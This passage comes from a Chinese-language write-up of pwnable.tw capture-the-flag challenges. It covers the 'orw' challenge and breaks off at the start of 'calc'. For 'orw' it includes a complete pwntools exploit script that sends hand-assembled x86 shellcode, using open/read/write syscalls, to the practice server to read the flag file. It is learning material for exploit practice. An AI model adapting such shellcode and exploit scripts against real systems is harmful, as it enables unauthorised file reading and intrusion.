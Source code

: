 ## 0x02 orw

BIN文件[地址](https://pwnable.tw/static/chall/orw)

通过ida查看汇编代码或者用gdb的checksec可以发现这个程序看起了CANNARY防护功能，不过无所谓，我们在这里用不到栈溢出，因为可以直接布置shellcode然后执行。同时题目描述还说了'Read the flag from /home/orw/flag.Only `open` `read` `write` syscall are allowed to use.'。因此这个题目就变成了如何写汇编来使用这三个系统调用来读取指定文件。我们可以先写一个伪C代码：

```c
char* file = 'home/orw/flag';
sys_open(file,0,0);
sys_read(3,file,0x30);
sys_write(1,file,0x30);
```

把这段代码转成汇编代码就是shellcode，最终的payload如下：

```python
from pwn import *

debug = False

if debug:
	s = process('./orw')
	context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
	gdb.attach(proc.pidof(s)[0])
else:
	s = remote('chall.pwnable.tw',10001)

shellcode = ''
shellcode += asm('xor ecx,ecx;mov eax,0x5; push ecx;push 0x67616c66; push 0x2f77726f; push 0x2f656d6f; push 0x682f2f2f; mov ebx,esp;xor edx,edx;int 0x80;')
shellcode += asm('xchg ecx,ebx;mov bl,0x3;mov dl,0x30;int 0x80;')
shellcode += asm('mov eax,0x4;mov bl,0x1;int 0x80;')

def pwn():
	recv = s.recvuntil(':')
	print recv
	s.sendline(shellcode)
	flag = s.recv()
	print flag

pwn()
```

## 0x03 calc

BIN文件[地址](https://pwnable.tw/static/chall/calc)

这道题突然难度就上升了很多，最终我还是看的别人的题解才搞明白这道题怎么做。这个程序是个计算器，题目提示'Have you ever use Microsoft calculator?'，可以搜到以前windows的计算器有个bug，但是好像跟这题并没有什么关系。拖进ida我们看看代码逻辑。

![img](/img/post/pwntw1-3.jpg)
